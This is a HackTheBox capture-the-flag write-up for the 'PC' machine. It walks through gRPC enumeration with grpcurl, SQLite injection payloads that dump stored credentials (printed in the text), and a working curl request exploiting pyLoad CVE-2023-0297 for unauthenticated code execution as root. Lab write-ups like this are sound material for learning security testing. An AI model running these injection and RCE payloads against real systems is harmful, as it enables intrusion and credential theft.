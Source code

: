 # [PC](https://app.hackthebox.com/machines/PC) - 05/06/2023 - HackTheBox write-up

## User flag

### Discovery

After a first `nmap` we only found a SSH server and nothing more. So we can try a more aggressive ports scan :
```bash
$ nmap -p0-65535 10.10.11.214 -Pn        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 12:46 CEST
Nmap scan report for 10.10.11.214
Host is up (0.016s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 153.83 seconds
```

This port is usually associated with gRPC service, so we can try to connect with gRPC.

First we need a tool, we can find `grpcurl` a CLI interface [here](https://github.com/fullstorydev/grpcurl).

Then we can try this tool:
```bash
$ grpcurl -plaintext 10.10.11.214:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```

It works, and we find an application: `SimpleApp`. Now we can list the services :
```bash
$ grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
SimpleApp.LoginUser
SimpleApp.RegisterUser
SimpleApp.getInfo
```

So, we have 3 services, `RegisterUser` to register, `LoginUser` to login and `getInfo` to get informations.

We can create users, connect with them and also connect with `admin:admin` credentials. Each connection give us an `id` and a token. We can use this informations with the service `getInfo` but it gives us always the same response :
```bash
$ grpcurl -plaintext -v -d '{"id": "503"}' -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODU5ODMwNjl9.Pqx6-jL86yY6ZL1OSWxx-ORMNwaDy26sSDGTvCcI0rA' 10.10.11.214:50051 SimpleApp.getInfo

Resolved method descriptor:
rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );

Request metadata to send:
token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODU5ODMwNjl9.Pqx6-jL86yY6ZL1OSWxx-ORMNwaDy26sSDGTvCcI0rA

Response headers received:
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

Response contents:
{
  "message": "Will update soon."
}

Response trailers received:
(empty)
Sent 1 request and received 1 response
```

### Searching for vulnerability

We cannot found more informations by using the services as expected, so we need to find a vulnerability, probably an injection.

After researches we can found an error when submitting the following request:
```bash
$ grpcurl -plaintext -d '{"id": "50; test"}' -H "token: $token" 10.10.11.214:50051 SimpleApp.getInfo 
ERROR:
  Code: Unknown
  Message: Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.
```

There is a `sqlite3.Warning` exception so this parameter is vulnerable to a numeric SQL injection.

### Exploitation

So, now we can exploit it to retrieve the name of the tables:
```
Request:
{
    "id": "1 union SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -"
}
Response:
{
  "message": "accounts"
}
```
Then the columns:
```
Request:
{
  "id": "1 union SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts' -- -"
}
Response:
{
    "message":
        "CREATE TABLE \"accounts\" (
            username TEXT UNIQUE,
            password TEXT
        )"
}
```
And finally the usernames and passwords:
```
Request:
{
    "id": "1 union SELECT username/password FROM accounts LIMIT $N,$N+1"
}
```

With this we can find two credentials:
```
sau:HereIsYourPassWord1431
admin:admin
```

To obtain the user flag we can now reuse the username `sau` with his password to connect to the server with SSH.

## Root flag

### Searching for elevating privileges

First, we can just run `linpeas` and hope it will find the vulnerability we need to exploit.

I doesn't find it immediately, I was searching for CVE or SUID programs first, but there is nothing exploitable.

So, I've started to search for specific tools, scripts or programs run as `root` and I find this:
```bash
$ ps -elf | grep root
[...]
4 S root    1048    1  0  80   0 - 301896 -     11:15 ?     00:00:01 /usr/bin/python3 /usr/local/bin/pyload
```

The system use `pyload` (a download manager in Python) and it runs as `root`.

Quickly by searching `pyLoad CVE` we can find the CVE-2023-0297, a RCE without authentication, so it's probably that.

### Exploitation

A POC is available [here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). We just need to find the port where `pyLoad` is running. There is only one unknown port who is listening so it must be that (port `9666`).

So we just need to use the exploit of the POC and get the flag:
```bash
# cat /root/root.txt > /tmp/pwned
sau@pc:~$ curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"cat%20%2Froot%2Froot.txt%20%3E%20%2Ftmp%2Fpwned\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:9666/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 06 Jun 2023 11:46:29 GMT
Server: Cheroot/8.6.0

Could not decrypt key
sau@pc:~$ cat /tmp/pwned
d37b90d7445383cec8bf802fa0153704
```
